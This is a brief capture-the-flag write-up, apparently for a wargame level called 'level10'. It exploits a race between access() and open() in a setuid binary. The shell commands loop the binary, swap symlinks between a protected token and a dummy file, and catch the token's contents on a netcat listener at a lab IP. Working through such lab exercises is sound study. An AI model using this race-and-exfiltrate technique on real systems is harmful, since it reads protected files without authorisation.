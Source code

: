 #the repository contains a binary level10 and a token file 
#we can execute the binary but do not have read permission on the token.
#strings level10 allows us to visualize the functions in the binary
#we can see access is used, and we find out by checking the man that there's a vulnerability when this function is used
#we can seize the moment between access and open are executed to open the token

while [ true ] ; do ./level10 /tmp/getflag 10.12.1.126; done

nc -lk 6969

#we create a file /tmp/my_file

while [ true ] ; do rm /tmp/getflag ; ln -s ~/token /tmp/getflag ; rm -rf /tmp/getflag ; ln -s /tmp/my_file /tmp/getflag ; done
